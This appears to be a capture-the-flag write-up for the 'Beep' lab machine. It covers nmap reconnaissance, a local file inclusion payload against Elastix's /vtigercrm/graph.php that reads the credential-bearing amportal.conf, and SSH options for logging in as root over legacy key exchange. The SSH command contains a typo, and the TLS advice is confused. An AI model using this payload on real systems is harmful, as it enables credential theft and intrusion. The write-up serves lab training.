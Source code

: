 ## Beep

### Lab Details 

- Difficulty: Easy
- Type: Web app

#### Tasks

Q1: Which Linux distribution is the target machine running?
 - `nmap target_ip -sT -A -p- -T4`
 ```
    443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
    |_http-title: Elastix - Login page
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2017-04-07T08:22:08
    |_Not valid after:  2018-04-07T08:22:08
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_ssl-date: 2025-05-16T02:00:43+00:00; -1m01s from scanner time.
```
 - CentOS

Q2: What version of TLS is the web application on TCP port 443 using?
 - `nmap target_ip -sV -script ssl-enum-ciphers -p 443`
```
    |   TLSv1.0: 
    |     ciphers: 
    |       TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA (dh 1024) - F
    |       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 1024) - F
```

Q3: What is the name of the software that's hosting a webserver on 443?
 - can be found in first nmap output or visit the app via URL
 - elastix

Q4: Which Elastix endpoint is vulnerable to a Local File Inclusion?
 - according to https://www.exploit-db.com/exploits/37637 
 - `#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
 - and based on the exploit above the vulnerable endpoint is located at /vtigercrm/graph.php

Q5: What is the name of the FreePBX configuration file that contains the database configuration?
 - according to the exploit we are fetch the file called amportal.conf which contains db configurations

Q6: What additional flag is needed when attempting to SSH as root to the target machine due to a "no matching key exchange method found" error? It starts with -o and ends with -sha1.
 - when trying to ssh as root to target we get below error 
```
ssh root@10.10.10.7            
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
 - after searching online, to connect using legacy cipher ssh will require the cipher to be specified
 - we need both server and host cipher to be specified inorder to connect
 - `ssh -oKexAlgorithms=+diffie0hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@target_ip`

Q7&8: Flags for user fanis and root 
 - located at /root/root.txt and /home/fanis/users.txt

#### Lesson Learned
- Check web app TLS version and if TLS version is 1 or 2 update it, on firefox set security.tls.version.min to 1 in about:config
- Need to read and understand the exploit, read it carefully
- Need to understand the output of an exploit
- How to connect to remote when using legacy cipher`ssh -oKexAlgorithms=+diffie0hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@target_ip`
